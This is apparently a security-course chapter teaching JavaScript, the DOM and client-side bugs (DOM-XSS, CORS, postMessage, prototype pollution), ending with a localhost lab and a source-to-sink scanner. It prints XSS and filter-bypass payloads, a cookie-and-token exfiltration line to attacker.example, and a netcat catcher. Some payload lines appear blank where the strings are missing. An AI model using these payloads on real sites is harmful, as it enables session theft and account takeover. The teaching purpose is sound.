




**Level:** Intermediate · **Track:** Foundations · **Read time:** 170 min

This is Chapter 6 of the Programming for Security series — Notebook 5. The earlier
chapters built your Python and C footing; this one crosses to the other side of every web
request: the **browser**, and the language that runs inside it. You cannot seriously test
web applications without reading and writing JavaScript, because the entire client half of
a modern app — routing, rendering, auth token handling, input validation — lives in JS
executing against the **DOM**. Server-side bugs get all the fame, but DOM-based XSS,
prototype pollution, insecure `postMessage`, client-side path traversal, and JWT-in-
`localStorage` mistakes are pure client-side, and you can only find them if you understand
how the browser thinks.

This chapter teaches JavaScript and the DOM from the ground up *for security work*, not
for building apps. We start with how a script gets parsed and executed, walk the DOM tree
and event model, then reach the core mental model of client-side vulnerability research:
**sources and sinks**. You will learn the same-origin policy and CORS in enough depth to
know why an XSS is worse than a CSRF, exploit a DOM-XSS by hand in the lab, write a small
source-to-sink scanner, and learn to read minified, bundled production code. Everything is
lab-scoped and lawful — you test targets you own or are authorised to test.

## Who This Chapter Is For (and the Map Ahead)

You need basic programming (variables, functions, loops — Chapters 1–2) and a working
picture of HTTP from Notebook 2 (requests, responses, headers, cookies, status codes). You
do **not** need prior JavaScript. We begin at "what is a script tag" and end at prototype
pollution gadgets.



The through-line: **the browser turns HTML into a live object tree (the DOM), JavaScript
mutates that tree, and any path from attacker-controlled *source* to a dangerous *sink* is
a client-side vulnerability.** Learn that pipeline and client-side security clicks into
place.

## Part 1: How JavaScript Actually Runs

JavaScript is a single-threaded, event-driven language executed by an engine (V8 in
Chrome/Node, SpiderMonkey in Firefox, JavaScriptCore in Safari). When the browser
downloads an HTML page, it parses the markup top to bottom; when it hits a `<script>`, it
hands the code to the engine, which compiles and runs it *immediately and synchronously*
by default — pausing HTML parsing until the script finishes. That blocking behavior is why
placement and the `async`/`defer` attributes matter:

```html
<script src="app.js"></script>          <!-- blocks parsing until fetched + run -->
<script src="app.js" defer></script>    <!-- fetch in parallel, run after parse -->
<script src="app.js" async></script>    <!-- fetch in parallel, run ASAP, order not guaranteed -->
<script>console.log("inline runs here")</script>
```

The engine gives you three things that matter for security:

1. **The global object** — `window` in a browser (`globalThis` generically). Every global
   variable is a property of `window`. `var secret = 1` creates `window.secret`.
2. **The event loop** — a queue of callbacks (timers, network, user events) run one at a
   time. `setTimeout`, `fetch().then()`, and DOM event handlers all schedule work here.
3. **Execution contexts and scope** — each function call creates a scope; closures capture
   variables. This is why a token stored in a closure is *less* exposed than one on
   `window`.

```javascript
// The event loop in one snippet
console.log("1 sync");
setTimeout(() => console.log("3 timer (macrotask)"), 0);
Promise.resolve().then(() => console.log("2 microtask"));
// Output order: 1 sync, 2 microtask, 3 timer
```

**Security relevance:** understanding sync-vs-async execution tells you *when* a sink
fires. A DOM-XSS payload written into `innerHTML` executes its `` on the next
render tick, not necessarily the line after your `write`. And knowing that everything
global hangs off `window` is the basis for hunting exposed secrets: in the console,
`Object.keys(window)` on a target app often reveals framework state, API keys, and debug
objects the developers forgot were global.

### Modern syntax you must be able to read

Bug hunters read far more JS than they write, and modern bundles use ES6+ heavily. The
constructs that trip people up:

```javascript
const f = (x) => x * 2;                 // arrow function
const {token, user} = response;         // destructuring
const url = `${base}/api/${id}`;        // template literal
const copy = {...orig, admin: true};    // spread
arr?.map?.(x => x.id) ?? [];            // optional chaining + nullish coalescing
async function get() { return await fetch("/me"); } // async/await
```

Template literals (`${...}`) are a *sink hotspot*: developers build HTML and URLs by
string-concatenating user input into them, which is exactly how DOM injections happen.

### Type coercion quirks that become security bugs

JavaScript's loose equality (`==`) coerces operands before comparing, producing famously
surprising results. In server-side Node especially, these coercions become **auth-bypass**
and **filter-bypass** primitives:

```javascript
"" == 0            // true  — empty string coerces to 0
"0" == false       // true
[] == ![]          // true  — [] -> "" -> 0, ![] -> false -> 0
null == undefined  // true  (but null == 0 is false)
"1e3" == 1000      // true  — numeric-string coercion
[1] == 1           // true  — single-element array coerces to its value
```

When a Node backend does `if (user.password == suppliedPassword)` and an attacker can send
a JSON *type* (via `{"password": true}` or `{"password": []}`), coercion can make a check
pass unintentionally. The related **magic hash** issue: PHP/loose-typed comparisons treat
strings like `"0e123..."` as the number 0, so two different "0e"-prefixed hashes compare
equal. **Bug bounty / CTF angle:** whenever an API accepts JSON and does a comparison,
test type confusion — send arrays, booleans, and numbers where a string is expected. The
fix is always **strict equality (`===`)** plus explicit type validation on input.

## Part 2: The DOM — What It Really Is

The **Document Object Model** is the browser's in-memory, tree-shaped representation of
the parsed HTML. Every tag becomes a **node** object with properties and methods; JS reads
and mutates this tree, and the browser re-renders when it changes.



You navigate and mutate it with a small core API:

```javascript
document.getElementById("app");            // one element by id
document.querySelector(".card > a");       // first CSS match
document.querySelectorAll("input");        // NodeList of all matches
el.textContent = "safe text";             // sets TEXT only — no HTML parsed (SAFE sink)
el.innerHTML = "<b>parsed as HTML</b>";   // parses HTML (DANGEROUS sink)
el.setAttribute("href", url);             // attribute write (context-dependent sink)
el.appendChild(document.createElement("div"));
```

The single most important security distinction on this whole page: **`textContent` treats
its input as inert text; `innerHTML` treats its input as markup and parses it.** Assigning
attacker data to `textContent` is safe; assigning it to `innerHTML` can execute script.
Every DOM-XSS write-up ultimately comes down to which of these the developer chose.

| DOM property/method | Parses as HTML? | Executes script? | Verdict |
|---------------------|-----------------|------------------|---------|
| `textContent` / `innerText` | No | No | Safe |
| `innerHTML` / `outerHTML` | Yes | Via ``, `<svg onload>` | Dangerous |
| `insertAdjacentHTML` | Yes | Yes | Dangerous |
| `document.write` | Yes | Yes | Dangerous (also destroys page mid-parse) |
| `setAttribute("href", x)` | No | Yes if `javascript:` URI | Context-dependent |
| `eval` / `Function()` | N/A | Yes — runs arbitrary JS | Extremely dangerous |
| `element.style` | No | Generally no | Usually safe |

Note `innerHTML` does **not** run a bare `<script>` tag inserted after load (the HTML spec
forbids it), which surprises beginners. That is why real DOM-XSS payloads use
*event-handler* vectors like `` or `<svg onload=alert(1)>`,
which fire without a `<script>` element.

## Part 3: The Event Model & Where Handlers Come From

The DOM is interactive because nodes emit **events** (click, load, error, message,
hashchange) and JS attaches **handlers**:

```javascript
btn.addEventListener("click", (e) => { console.log(e.target.value); });
window.addEventListener("hashchange", handleRoute);   // SPA routing source!
window.addEventListener("message", (e) => { render(e.data); }); // postMessage source!
```

Three event sources matter enormously for security because they carry *attacker-influenced
data* into the page:

- **`hashchange` / reading `location.hash`** — single-page apps route on the URL fragment
  (`#/user/123`). The fragment is attacker-controllable and *never sent to the server*, so
  fragment-driven DOM-XSS is invisible in server logs.
- **`message` (postMessage)** — cross-origin windows/iframes send data here. A handler that
  trusts `event.data` without checking `event.origin` is a classic bug (Part 8).
- **`load` / `error` on injected elements** — the mechanism XSS payloads abuse
  (`onerror`, `onload`).

**Bug bounty angle:** on any SPA, the first thing to test is the URL fragment. Change
`https://target/#/dashboard` to `https://target/#/`
and watch whether the router pipes the fragment into `innerHTML`. Fragment-based DOM-XSS is
one of the most commonly-paid client-side bugs precisely because it doesn't touch the
server and gets missed by server-side WAFs.

## Part 4: The Source → Sink Model (the heart of client-side security)

Client-side injection is best understood as **data flow**: attacker-controlled input
enters through a **source**, flows through the code, and reaches a dangerous **sink**. If
the path is unbroken and unsanitized, you have a bug.



### Sources — where attacker data enters the DOM

| Source | Attacker controls it via | Notes |
|--------|--------------------------|-------|
| `location.href`, `.search`, `.hash` | Crafted URL sent to victim | Hash never reaches server |
| `document.referrer` | Attacker's page links to target | Referer header value |
| `window.name` | Attacker sets before navigating | Persists across navigations |
| `postMessage` `event.data` | Attacker page/iframe posts | Must verify `origin` |
| `localStorage`/`sessionStorage` | Prior XSS or shared subdomain | Reflected on next load |
| `document.cookie` | Related-domain injection | |

### Sinks — where data becomes code or markup

The high-value JS sinks to grep for in any codebase:

```
innerHTML  outerHTML  insertAdjacentHTML  document.write  document.writeln
eval  setTimeout(string)  setInterval(string)  Function(...)  execScript
element.setAttribute  el.src  el.href  location  location.href  location.assign
jQuery: $(...).html()   $(...).append()   $.globalEval()   $(userInput)
```

**Red team / CTF angle:** in a CTF web challenge, open DevTools, `Ctrl+Shift+F` (global
source search) across all loaded scripts, and search for `innerHTML`, `eval`, and
`location.hash`. Trace backwards from each sink to see whether a source reaches it. That
single workflow solves a large fraction of client-side challenges and mirrors exactly what
a professional does on a real bug bounty target.

## Part 5: DOM-Based XSS in Depth

DOM XSS occurs entirely in the browser: the *server response is identical* whether or not
the attack fires, because the malicious data flows through client JS, often via the URL
fragment. Contrast the three XSS families:

| Type | Where injection happens | Server sees payload? | Typical sink |
|------|-------------------------|----------------------|--------------|
| **Reflected** | Server echoes request param into HTML | Yes | Server template |
| **Stored** | Server stores then serves payload | Yes | Server template |
| **DOM-based** | Client JS writes source into sink | Often **no** | `innerHTML`, `eval` |

A minimal vulnerable page:

```html
<div id="welcome"></div>
<script>
  // BUG: takes the URL fragment and writes it as HTML
  const name = decodeURIComponent(location.hash.slice(1));
  document.getElementById("welcome").innerHTML = "Welcome, " + name;
</script>
```

Visiting `https://victim/#` runs the attacker's
JS in the victim's origin. Because `innerHTML` won't run a bare `<script>`, the reliable
payloads are event-handler-based:

```html

<svg onload=alert(document.domain)>
<iframe src=javascript:alert(document.domain)>
<body onpageshow=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
```

### Filter and WAF bypass variants

Defenders often blocklist `alert`, `onerror`, or angle brackets. Real bypass techniques you
should understand (and that PortSwigger labs drill):

```html
<!-- case / whitespace / encoding tricks -->

           <!-- HTML entity in attribute -->
<svg><script>confirm(1)</script></svg>        <!-- svg allows script in some contexts -->
<a href="javascript:alert(1)">x</a>      <!-- unicode escape in JS URI -->
<!-- avoid alert entirely -->
 <!-- base64-encoded payload -->

```

**The exploitation goal is rarely `alert(1)`** — that just proves execution. Real impact
uses the same-origin JS to steal the session:

```javascript
// Exfiltrate the auth token to an attacker server (proof-of-impact in an authorized test)
new Image().src = "https://attacker.example/c?" + encodeURIComponent(
  document.cookie + "|" + localStorage.getItem("jwt")
);
```

This is why "just an XSS" is critical: code running in the origin can read cookies (unless
`HttpOnly`), read `localStorage` tokens (always), make authenticated `fetch` calls, and
rewrite the page — full account takeover.

### The correct fixes

- Write untrusted data with **`textContent`**, never `innerHTML`.
- If HTML is genuinely required, sanitize with **DOMPurify**:
  `el.innerHTML = DOMPurify.sanitize(userHtml)`.
- Deploy a strict **Content-Security-Policy** (Part 9) so injected inline handlers don't run.
- Use **Trusted Types** (`require-trusted-types-for 'script'`) to make dangerous sinks
  throw unless data passed through a vetted policy.

## Part 6: fetch, XHR & Talking to the Server

Client JS reaches the backend with `XMLHttpRequest` (legacy) or `fetch` (modern):

```javascript
// GET with credentials (cookies) sent
const r = await fetch("/api/me", { credentials: "include" });
const me = await r.json();

// POST JSON with a bearer token
await fetch("/api/transfer", {
  method: "POST",
  headers: { "Content-Type": "application/json", "Authorization": "Bearer " + token },
  body: JSON.stringify({ to: "acct-42", amount: 100 })
});
```

Two flags matter for security testing:

- **`credentials: "include"`** attaches cookies cross-origin — relevant to CSRF and CORS
  misconfig testing.
- Any custom header (like `Authorization` or `Content-Type: application/json`) triggers a
  **CORS preflight** `OPTIONS` request (Part 7).

**Blue team usage:** monitoring the Network tab (or a proxy) for `fetch` calls reveals the
app's real API surface — undocumented endpoints, hidden admin routes, and parameters not
exposed in the UI. **Bug bounty angle:** map every `fetch`/XHR endpoint in the JS bundle;
client code frequently references API routes that the server exposes but the UI never links
to, and those are where authorization bugs (IDOR, mass assignment) hide.

## Part 7: The Same-Origin Policy & CORS

The **Same-Origin Policy (SOP)** is the browser's foundational isolation rule: script from
origin A may not *read* responses from origin B. An **origin** is the exact triple
**scheme + host + port**.



| Compared URL (base `https://app.example`) | Same origin? | Why |
|-------------------------------------------|--------------|-----|
| `https://app.example/path` | Yes | scheme+host+port match |
| `http://app.example` | No | scheme differs |
| `https://app.example:8443` | No | port differs |
| `https://api.app.example` | No | host differs (subdomain) |

SOP is why an XSS *inside* the origin is so powerful (it bypasses SOP by *being* the origin)
and why CSRF works despite SOP (the request is *sent*, the attacker just can't *read* the
reply).

**CORS (Cross-Origin Resource Sharing)** is the controlled relaxation of SOP. A server opts
in with response headers:

```
Access-Control-Allow-Origin: https://trusted.example
Access-Control-Allow-Credentials: true
```

The dangerous misconfigurations to test for:

```
# 1. Reflecting arbitrary origin + allowing credentials = full cross-origin read
Access-Control-Allow-Origin: <whatever Origin the request sent>
Access-Control-Allow-Credentials: true

# 2. Trusting a wildcard subdomain or null origin
Access-Control-Allow-Origin: null       # reachable from a sandboxed iframe
```

If a server reflects the request's `Origin` **and** sets
`Access-Control-Allow-Credentials: true`, an attacker page can `fetch` the victim's
authenticated data cross-origin and read it — a serious data-theft bug. Note the spec
forbids `Access-Control-Allow-Origin: *` together with credentials, so attackers look for
*reflection* instead of the wildcard.

**Test it quickly:**

```bash
curl -s -I https://target.example/api/me -H "Origin: https://evil.example" | \
  grep -i "access-control-allow"
# If it echoes: Access-Control-Allow-Origin: https://evil.example
#            +  Access-Control-Allow-Credentials: true   -> vulnerable
```

## Part 8: postMessage, window.name & Cross-Window Attacks

`postMessage` is the sanctioned channel for cross-origin windows/iframes to talk. It is
also a frequent source of DOM-XSS and data leaks when handlers skip validation.

```javascript
// SENDER (some other origin)
targetWindow.postMessage({cmd: "render", html: "<b>hi</b>"}, "https://app.example");

// RECEIVER — VULNERABLE: no origin check, data flows to innerHTML
window.addEventListener("message", (e) => {
  document.getElementById("out").innerHTML = e.data.html;   // BUG: source -> sink
});
```

Two independent bugs here: (1) the receiver never checks `e.origin`, so *any* page can
message it; (2) `e.data.html` reaches `innerHTML`. The correct receiver:

```javascript
window.addEventListener("message", (e) => {
  if (e.origin !== "https://trusted.example") return;   // validate the sender
  document.getElementById("out").textContent = e.data.text; // safe sink
});
```

**`window.name`** is a lesser-known source: it persists across navigations and is
readable/writable cross-origin, so attackers stage payloads in it before redirecting the
victim to a page that pipes `window.name` into a sink.

**Bug bounty angle:** grep target JS for `addEventListener("message"` and inspect every
handler for a missing `origin` check followed by a sink. Insecure `postMessage` receivers
are a steady source of medium/high findings, especially in embedded widgets, OAuth popups,
and payment iframes.

## Part 9: Content-Security-Policy & Client-Side Defenses

**Content-Security-Policy (CSP)** is an HTTP response header that restricts what the page
may load and execute. It is the primary mitigation that turns "XSS = account takeover" into
"XSS = blocked or greatly limited."

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://cdn.example 'nonce-r4nd0m';
  object-src 'none';
  base-uri 'none';
  require-trusted-types-for 'script';
```

Key directives and why they matter:

| Directive | Effect | Attack it blocks |
|-----------|--------|------------------|
| `script-src 'self'` | Only same-origin scripts | Inline `<script>` / event-handler XSS |
| `'nonce-...'` | Only scripts with matching nonce run | Injected inline scripts (no nonce) |
| `object-src 'none'` | No Flash/plugins | Legacy plugin vectors |
| `base-uri 'none'` | Can't change `<base>` | Base-tag hijack of relative URLs |
| `require-trusted-types-for 'script'` | Dangerous sinks require vetted data | DOM-XSS at the sink |

Common CSP weaknesses attackers hunt: `'unsafe-inline'` (defeats the whole point),
`'unsafe-eval'` (allows `eval`), overly broad allowlisted CDNs that host JSONP or Angular
(enabling script-gadget bypasses), and missing `object-src`/`base-uri`. **Blue team
usage:** ship CSP in `Content-Security-Policy-Report-Only` first, collect violation
reports, then enforce — and never use `'unsafe-inline'` in `script-src`.

## Part 10: Prototype Pollution — a JS-Specific Class

JavaScript objects inherit from `Object.prototype`. If attacker input can write to
`__proto__`, they can inject properties onto *every* object in the runtime — **prototype
pollution**. On its own it may be benign; combined with a **gadget** (code that later reads
that polluted property) it escalates to DOM-XSS or, in Node, RCE.

```javascript
// Vulnerable recursive merge (pattern found in many utility libs)
function merge(target, source) {
  for (const key in source) {
    if (typeof source[key] === "object") {
      merge(target[key] = target[key] || {}, source[key]);
    } else {
      target[key] = source[key];   // BUG: key can be "__proto__"
    }
  }
}
// Attacker-controlled JSON:
merge({}, JSON.parse('{"__proto__":{"isAdmin":true}}'));
console.log(({}).isAdmin);   // true  -> every object now "isAdmin"
```

A client-side gadget turns that into XSS — e.g. a template library that does
`element.innerHTML = options.template || defaultTemplate`, where `options.template` is
absent so it falls through to the polluted `Object.prototype.template`:

```javascript
Object.prototype.template = "";
```

**Bug bounty / CTF angle:** query strings parsed into objects (`?__proto__[onerror]=...`,
`?constructor[prototype][x]=y`) are the usual entry point; PortSwigger's client-side
prototype-pollution labs and their **DOM Invader** tool automate finding the source and a
matching gadget. Fixes: parse with `Object.create(null)` maps, block `__proto__`/
`constructor`/`prototype` keys, use `Map` instead of plain objects, and freeze prototypes.

## Part 11: Framework Sinks & Client-Side Template Injection

Modern apps rarely touch `innerHTML` directly — they use React, Vue, Angular, or a
templating library. Those frameworks *auto-escape* by default, which is a huge security
win, but each ships a small set of **escape hatches** that reintroduce the sink. Knowing
the framework-specific sink is essential because grepping for `innerHTML` alone misses
them.

| Framework | Auto-escapes? | The dangerous escape hatch | Notes |
|-----------|---------------|----------------------------|-------|
| **React** | Yes (JSX text) | `dangerouslySetInnerHTML={{__html: x}}` | Named to scare you; still misused |
| **Vue** | Yes (`{{ }}`) | `v-html="x"` | Renders raw HTML into the element |
| **Angular** | Yes (strong) | `bypassSecurityTrustHtml(x)`, `[innerHTML]` | Sanitizer bypass functions |
| **jQuery** | No | `$(x).html(x)`, `$(userInput)` | `$()` of a string parses HTML |
| **Handlebars/Mustache** | `{{ }}` escapes | `{{{ triple }}}` renders raw | Triple-stache is the sink |

```jsx
// React — the one line that reintroduces XSS
<div dangerouslySetInnerHTML={{ __html: userSuppliedHtml }} />   // BUG if unsanitized
// Safe: <div>{userSuppliedHtml}</div>  (JSX escapes text nodes)
```

```html
<!-- Vue -->
<div v-html="comment"></div>   <!-- BUG: comment rendered as HTML -->
<div>{{ comment }}</div>       <!-- safe: mustache escapes -->
```

### Client-side template injection (CSTI)

Some frameworks *evaluate expressions* inside templates. If attacker input lands inside a
template that the framework then evaluates, you get **client-side template injection** —
distinct from XSS because the payload is framework expression syntax, not HTML. The classic
case is **AngularJS** (1.x), where `{{ }}` is an evaluated expression:

```
# Angular 1.x sandbox-escape style payload (historical, now-removed sandbox)
{{constructor.constructor('alert(document.domain)')()}}
```

If a site reflects your input into an AngularJS-bound region, `{{7*7}}` rendering as `49`
confirms CSTI, and the constructor gadget escalates to code execution. Vue and other
expression-based templates have analogous gadgets. **Bug bounty angle:** always test `{{7*7}}`
and `${7*7}` alongside HTML payloads — a reflected `49` is a strong signal of template
evaluation that HTML-encoding defenses do not stop.

**The key defensive point:** framework auto-escaping protects the *default* path; every bug
in a modern SPA lives in an *escape hatch* (`dangerouslySetInnerHTML`, `v-html`,
`bypassSecurityTrust*`) or in an evaluated template. When auditing, grep specifically for
those tokens, not just `innerHTML`.

## Part 12: Hands-On Lab — Find and Exploit a DOM-XSS, Then Write a Finder

This lab has two halves: **manual exploitation** of a deliberately vulnerable local page,
then a **small automated source-to-sink scanner** you write in Node. Everything runs on
`localhost` against files you own.

### Setup — a vulnerable page and a local server

Create `vuln.html`:

```html
<!doctype html>
<html>
<head><title>Notes</title></head>
<body>
  <h1>My Notes</h1>
  <div id="output"></div>
  <script>
    // SPA-style router: read the fragment and render it
    function render() {
      const note = decodeURIComponent(location.hash.slice(1) || "no note");
      document.getElementById("output").innerHTML = "Note: " + note;  // VULN
    }
    window.addEventListener("hashchange", render);
    render();
  </script>
</body>
</html>
```

**Tool from scratch: a static server.** You need to serve over `http://` (not `file://`)
so origins behave normally. Python ships one:

```bash
python3 -m http.server 8000
# serves the current directory at http://localhost:8000
```

### Step 1 — Confirm the sink fires

Open `http://localhost:8000/vuln.html#hello`. The page shows `Note: hello`. Now try the
fragment payload:

```
http://localhost:8000/vuln.html#
```

You get an `alert` reading `localhost` — proof that fragment data reached `innerHTML` and
executed. Nothing was sent to the server: check the server console and you'll see only the
initial `GET /vuln.html` with no payload — the classic DOM-XSS invisibility.

### Step 2 — Escalate to proof-of-impact

Replace the payload with a data-exfil version (against your own page, in an authorized
test):

```
#
```

Run a listener to catch the callback:

```bash
# netcat one-liner listener showing the incoming request
while true; do printf 'HTTP/1.1 200 OK\r\n\r\n' | nc -l -p 9000 -q1; done
```

Loading the payload page fires a request to `:9000` carrying the cookie value — the same
primitive an attacker uses for session theft. In a real report you would stop at
demonstrating `document.domain` + read access and never touch real user data.

### Step 3 — Write a source-to-sink scanner in Node

**Tool from scratch: Node.js.** Node runs JavaScript outside the browser; here we use it to
statically scan `.js`/`.html` files for source→sink patterns. Save as `domscan.js`:

```javascript
#!/usr/bin/env node
// domscan.js — naive DOM-XSS source/sink flagger. Educational, not a real taint engine.
const fs = require("fs");
const path = require("path");

const SOURCES = [/location\.(hash|search|href)/, /document\.referrer/,
                 /window\.name/, /addEventListener\(\s*["']message["']/];
const SINKS   = [/\.innerHTML\s*=/, /\.outerHTML\s*=/, /document\.write/,
                 /insertAdjacentHTML/, /\beval\s*\(/, /new Function\s*\(/,
                 /setTimeout\(\s*["'`]/, /\$\([^)]*\)\.html\(/];

function walk(dir) {
  return fs.readdirSync(dir, {withFileTypes: true}).flatMap(d => {
    const p = path.join(dir, d.name);
    if (d.isDirectory()) return d.name === "node_modules" ? [] : walk(p);
    return /\.(js|html|mjs)$/.test(d.name) ? [p] : [];
  });
}

for (const file of walk(process.argv[2] || ".")) {
  const lines = fs.readFileSync(file, "utf8").split("\n");
  lines.forEach((line, i) => {
    const hitSource = SOURCES.find(re => re.test(line));
    const hitSink   = SINKS.find(re => re.test(line));
    if (hitSource) console.log(`SOURCE  ${file}:${i + 1}  ${line.trim()}`);
    if (hitSink)   console.log(`SINK    ${file}:${i + 1}  ${line.trim()}`);
  });
}
```

Run it against the lab directory:

```bash
node domscan.js .
```

```
SOURCE  ./vuln.html:9   const note = decodeURIComponent(location.hash.slice(1) || "no note");
SINK    ./vuln.html:10  document.getElementById("output").innerHTML = "Note: " + note;
```

A source on line 9 and a sink on line 10 in the same function is exactly the signal a
researcher acts on. Real tools (Semgrep, CodeQL, PortSwigger DOM Invader) do proper taint
tracking, but this scanner teaches the model they implement, and it is genuinely useful for
a first pass over an unfamiliar bundle.

### Step 4 — Read minified production code

Real targets ship minified bundles. **Tool from scratch: a JS beautifier.** Use
`js-beautify` to make a bundle readable:

```bash
npm install -g js-beautify
curl -s https://localhost:8000/app.min.js | js-beautify - > app.readable.js
```

Then in the browser DevTools, click the `{ }` "Pretty print" button in the Sources panel to
format inline, and use `Ctrl+Shift+F` to search all scripts for your sink list. Set a
**breakpoint** on `HTMLElement.prototype.innerHTML` via DevTools' "DOM breakpoints" or a
conditional logpoint to watch data arrive at the sink at runtime — dynamic analysis that
catches flows static scanning misses.

### Lab wrap-up

You confirmed a fragment-to-`innerHTML` DOM-XSS by hand, escalated it to a session-theft
primitive, wrote a scanner that flags the source/sink pair, and learned to read minified
code and set sink breakpoints. That is the complete client-side research loop in miniature.

## Part 13: Detection & Defense Angle

Client-side attacks are detectable and preventable with the right controls and telemetry:

**Prevent**

